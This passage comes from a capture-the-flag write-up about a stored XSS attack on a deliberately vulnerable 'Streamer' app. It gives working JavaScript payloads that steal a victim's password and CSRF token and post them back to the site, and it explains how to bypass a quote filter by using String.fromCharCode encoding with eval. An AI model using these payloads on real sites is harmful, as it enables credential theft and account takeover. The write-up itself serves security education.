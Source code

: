 The syntax highlighting above should make it clear that our javascript will be executed as such.

There are still a couple of hurdles to get through.  One is that for security purposes, all user input is filtered for quotes:

``` ruby
def self.safe_insert(table, key_values)
  key_values.each do |key, value|
  # Just in case people try to exfiltrate
  # level07-password-holder's password
  if value.kind_of?(String) && 
      (value.include?('"') || value.include?("'"))
    raise "Value has unsafe characters"
  end
end
```

Another is that in order to prevent CSRF attackers, there is a CSRF token that is required with every request.  

Let's leave the quotes issue for now and get around the CSRF token. We can get a correct CSRF token the same way that we got the user's password, by selecting the HTML element that contains the CSRF token.  The token is contained in a hidden input fields, so our injection becomes:

``` html
</script><script>
  $.get('user_info', function (data) {
    $.post('ajax/posts', 
      { 
        title:$('td', data)[1].innerHTML, 
        body:'EMPTY', 
        _csrf:$('input[name="_csrf"]') 
       });
   });
</script><script>
```

This of course won't work because the quote filter will prevent us from posting a message will all of those quotes.  We can get around this by encoding each character in our javascript as its ASCII value and then running it like `eval(String.fromCharCode(67,61//...)`.  I used [this](http://www.wocares.com/noquote.php) utility to help me encode everything.

The above payload, when encoded with `String.fromCharCode` still doesn't work, and it took me a long time to figure out why.  

As it turns out, the target user's first post gives a big hint
> One great feature of Streamer is that no password resets are needed. I, for
> example, have a very complicated password **(including apostrophes, quotes, you
> name it!)**. But I remember it by clicking my name on the right-hand side and
> seeing what my password is.

The password contains some quotes so the target user won't be able to post it in a message.  We have to replace the quotes with something else.  The correct javascript is
``` javascript
$.get('user_info', function (data) {
  $.post('ajax/posts', 
    { 
      title:$('td', data)[1].innerHTML.replace(/"/g, "&quot;"), 
      body:'EMPTY', 
      _csrf:$('input[name="_csrf"]') 
    });
});
```
And when the above is encoded with `String.fromCharCode` and put inside a `<script>` tag, the target user will post their password when viewing our post:
